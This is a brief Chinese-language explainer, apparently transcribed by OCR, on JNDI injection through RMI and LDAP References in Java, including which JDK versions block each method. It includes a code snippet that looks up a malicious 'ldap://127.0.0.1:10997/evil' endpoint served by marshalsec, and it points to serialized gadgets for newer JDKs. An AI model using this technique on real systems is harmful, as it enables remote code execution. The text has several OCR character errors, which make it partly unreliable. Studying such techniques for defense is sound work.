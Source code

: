 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。